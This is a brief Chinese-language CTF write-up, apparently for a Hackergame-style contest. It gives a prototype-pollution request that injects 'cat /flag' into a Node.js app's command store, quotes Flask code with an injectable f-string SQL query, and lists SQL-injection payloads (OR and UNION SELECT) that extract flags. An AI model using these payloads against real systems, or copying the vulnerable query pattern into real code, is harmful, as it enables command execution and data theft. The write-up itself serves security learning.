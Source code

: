 

## Node.js is Web Scale

查看源码发现需要往 cmds 里加一个 `payload: 'cat /flag'`

但现在只能往 store 里加东西，怎么才能同时加到 cmds 里呢？

诶，`__proto__` 



```
POST /set
{"key":"__proto__.payload","value":"cat /flag"}

GET /execute?cmd=payload
```



## PaoluGPT

### 千里挑一

遍历聊天记录列表 可获得 flag



### 窥视未知

查看源码发现可以SQL注入

```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```



构造payload 可获得 flag

```
' OR shown = false AND '1'='1
```



```
' UNION SELECT id, contents FROM messages WHERE contents LIKE '%flag%' LIMIT 1 --
```

```
' UNION SELECT id, contents FROM messages WHERE contents LIKE '%flag%' LIMIT 1,1 --
```



## ℹ强大的正则表达式
